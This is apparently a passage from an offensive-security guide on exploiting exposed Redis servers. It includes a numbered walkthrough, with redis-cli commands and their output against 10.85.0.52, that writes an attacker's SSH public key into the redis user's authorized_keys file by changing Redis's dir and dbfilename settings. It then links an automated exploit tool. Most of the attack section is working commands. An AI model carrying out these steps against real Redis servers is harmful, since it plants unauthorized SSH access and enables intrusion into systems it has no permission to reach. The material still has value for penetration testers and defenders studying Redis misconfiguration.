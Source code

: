 ​If the webshell access exception, you can empty the database after backup and try again, remember to restore the database.

### SSH

Please be aware **`config get dir`** result can be changed after other manually exploit commands. Suggest to run it first right after login into Redis. In the output of **`config get dir`** you could find the **home** of the **redis user** (usually _/var/lib/redis_ or _/home/redis/.ssh_), and knowing this you know where you can write the `authenticated_users` file to access via ssh **with the user redis**. If you know the home of other valid user where you have writable permissions you can also abuse it:

1. Generate a ssh public-private key pair on your pc: **`ssh-keygen -t rsa`**

2. Write the public key to a file : **`(echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`**

3. Import the file into redis : **`cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key`**

4. Save the public key to the **authorized\_keys** file on redis server:

```

root@Urahara:~# redis-cli -h 10.85.0.52

10.85.0.52:6379> config set dir /var/lib/redis/.ssh

OK

10.85.0.52:6379> config set dbfilename "authorized_keys"

OK

10.85.0.52:6379> save

OK

```

5. Finally, you can **ssh** to the **redis server** with private key : **ssh -i id\_rsa redis@10.85.0.52**

**This technique is automated here:** [https://github.com/Avinash-acid/Redis-Server-Exploit](https://github.com/Avinash-acid/Redis-Server-Exploit)
